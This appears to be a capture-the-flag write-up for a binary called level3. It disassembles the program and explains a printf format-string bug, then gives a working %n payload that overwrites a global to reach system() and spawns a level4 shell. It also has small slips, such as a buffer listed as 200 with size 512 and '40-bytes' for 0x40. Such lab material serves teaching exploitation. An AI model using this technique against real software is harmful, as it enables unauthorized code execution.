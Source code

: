 # level3

## Steps

### Dissassembly

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level3
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```

It calls another function v:

```nasm
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

We can see that there is a system call, but to reach it, a specific value needs to be set to0x40.
```nasm
...
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   ...
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

The stack looks like this:
| Address | Type           | Size |
|---------|----------------|------|
| -0x218  | char \*fmt     |   4  |
| -0x210  | FILE \*stdin   |   4  |
| -0x20c  | size_t len     |   4  |
| -0x208  | char data[200] | 512  |
|  0x000  | *EBP           |   4  |
|  0x004  | *EIP           |   4  |

There is a call to printf with a user-controlled stack-buffer as first argument.

In c, the procedure would look like this:
```c
FILE *stdin = *(FILE**)0x8049860;
fgets(fmt, len, stdin);

printf(fmt);

if (*(int*)0x804988c == 0x40)
{
	fwrite(...);
	system(...);
}
```

### Exploitation

With the use of some format-specifiers, we can easily print values from the stack, as if they where arguments:
```c
./level3 <<< "%p"
```
```c
0x200
```
Here we can see that we are able to print the length of the buffer, which was the second argument of the previous function: fgets.

Let's see if we can get up to our own buffer.
Remember: Arguments are pushed on the stack in reverse order.
That means [esp] is the first argument passed on the stack:
```nasm
...
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
...
```
Indeed, it contains the address of our buffer at ebp - 0x208, or esp + 0x10.
Since the buffer starts at esp + 0x10, we need to pop 16 bytes off the stack until we reach it.

This can be done using the %p format specifier, which prints 32 bit pointers.
We need to use 4 of them so that we have a 4 * 4 = 16 bytes offset.

```sh
./level3 <<< "AAAA %p %p %p %p"
```
```c
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Alright, so we can control the format string, as well the fourth argument of the printf call. But what can we do with this?

```sh
man 3 printf
```
>BUGS
>>Because  sprintf()  and  vsprintf() assume an arbitrarily long string, callers must becareful not to overflow the actual space; this is often impossible  to  assure.
>>Note that  the length of the strings produced is locale-dependent and difficult to predict.Use snprintf() and vsnprintf() instead (or asprintf(3) and vasprintf(3)).
>
>>Code such as printf(foo); often indicates a bug, since foo may contain a %  character.If  foo  comes from untrusted user input, it may contain %n, causing the printf() callto write to memory and creating a security hole.

In our case, the executable is affected by the second bug. We can write to a location provided by an argument using the %n specifier.

The %n modifiers writes the length of the preciding formatted input. So if we want to write 0x40 to memory location 0x804988c, we need to put the address at the start of our buffer, pop 3 arguments off the stack using the %p specifier, and pad the input to reach 40-bytes before placing %n specifier.

```sh
ADDRESS="804988c"
BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
(echo "$BYTES%p%p%45p%n"; cat) | ./level3
```
```
0x2000xb7fd1ac0                                   0xb7ff37d0
Wait what?!
whoami
level4
```
